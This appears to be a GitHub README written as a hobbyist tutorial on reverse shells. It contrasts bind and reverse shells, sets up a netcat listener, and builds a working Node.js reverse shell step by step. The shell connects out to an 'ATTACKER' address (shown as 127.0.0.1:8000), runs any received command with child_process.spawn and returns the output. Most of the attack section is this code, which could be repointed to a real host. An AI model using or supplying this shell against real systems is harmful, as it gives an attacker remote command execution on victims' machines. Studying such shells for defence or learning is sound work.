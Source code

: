 
# What are we doing here?
 
 
So basically, when you want to connect to a remote PC or server or something remote that goes online you can use a **bind shell**. You are the one asking :

_"Hey , can I connect to you?"_

Most of the times, because of firewall, for example if an attacker wants to connect to a remote server behind a firewall of a company, it does not works. 
The connection gets dropped because the traffic is not legitimate. Also beacuse the server could just expose few ports and there is already traffic through them.

The option an attacker has it to create a **REVERSE SHELL** (thunders + grave and dark voice)



# What the hell is a reverse shell?


The big difference is that now it is not the attacker anymore the one who asks if he can connect. Now is the target PC or target server which says: 

_"Let me connect to you, you ol' dirty bastard"_


Let me explain how it is done. 



First of all is already given that the target has somehow downloaded a malicious file containing a script or something that gets executed. This script makes the target PC on which is executed establish a connection to the attacker. This way there is a higher chance that the firewall will let the connection pass through givent that is outbound traffic.

[ATTACKER]<-------Let me connect to you----[TARGET]

The ATTACKER though has to setup a listener on his machine. This way the TARGET can coonect.
This is done via a listener, a piece of software as **Netcat** that can listen on a specified port.


For what I've been playing with so far, what I did on the ATTACKER machine was just setup netcat to listen on a port. I used this command:

`netcat -lnvp 8000`

I notice other tutorials use `-s SOURCE_IP`, but I don't need it since I got just one interface

Let's go through each flag

`-l` tells netcat to: 
>Listen for an incoming connection rather than initiating a connection to a remote host.

`-n` tells netcat to:
>Do not perform domain name resolution.  If a name cannot be resolved without DNS, an error will be reported.

`-v` tells netcat to be verbose

`-p` let us specify the port to start listening on


# Now we play

The part regarding the ATTACKER is pretty much done. Now I started playing with Javascript to implement the code to open the reverse shell.

Javascript + Node.js to be exact.

This is the list of node_modules that I needed: 
`npm list >>
 child_process@1.0.2
 net@1.0.2`
 
 
 First I included the required modules and the use of ENV variables
 
```
const net = require("node:net");
const child_process=require("node:child_process");

const{env} = require("node:process");
```
 
 
After that I defined PORT as an environment variables (NODE_PORT) if set, or as the 8000 port

`const PORT = env["NODE_PORT"] || 8000;`


Now comes the best part: **Establishing a network connection**


This bit will make the PC establish a connection to the ATTACKER IP(127.0.0.1) on port 8000

```
const client= net.createConnection({host: "127.0.0.1", port: PORT}, () =>{ 
                                                 
    client.write("Connected\r\n $> ");

});
```

And once the connection as been established, I will see "_Connected_" \n "_$>_" on my terminal, the ATTACKER terminal.


![](connected_reverse_shell.png)

### Ok good, we have a connection. Now what?
Now we implement the code that will make our TARGET do something when it receives the commands.

I used: `lient.on("data", FUNCTION )`

What this function does is specifying what the client will do when it will receive data. The passed data is defined as `"data"`and the `FUNCTION` is the action the TARGET will do.


```

client.on("data", (data)=>{  

  
    let cmd = (data.toString().trimEnd()); 

    let args = cmd .split(" "); 
    
    let exec = child_process.spawn(args[0],args.slice(1)); //args.slice(1) elimina il primo elemento del vettore

    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })


})
```

#### Let's break it down.

`let cmd = (data.toString().trimEnd()); `

Here i define `cmd` as the command that is passed. the method `toString()` is used to convert the bufferized hex that arrives into a string of character.

The method `trimEnd()` cuts the last character since it is a CR LF char and could mess up with the command we want to send.


`let args = cmd .split(" ");` here i define `args` as an array of all the commands + flags that are sent. The divisor is the space.

`let exec = child_process.spawn(args[0],args.slice(1));` This is the heart of our code. This method makes the command executable on the TARGET machine.


>child_process.spawn(command[, args][, options]).
As [**node.js** documentation states:](https://nodejs.org/api/child_process.html#child_processspawncommand-args-options) 
>The child_process.spawn() method spawns a new process using the given command, with command-line arguments in args. If omitted, args defaults to an empty array.

In our code, `args[0]` is the command we want to execute, from `args[1]` there are just flags. `args.slice[1]` takes the `args[]` vector from the 1st element, not the 0th.


To conclude, we make the client  output the result of our command. Alway using ".on"

```
    exec.stdout.on("data", (out) =>{

        client.write(out);
        client.write("$> ");
    })
    
````

## An example

![](command_execute-reverse_shell.png)











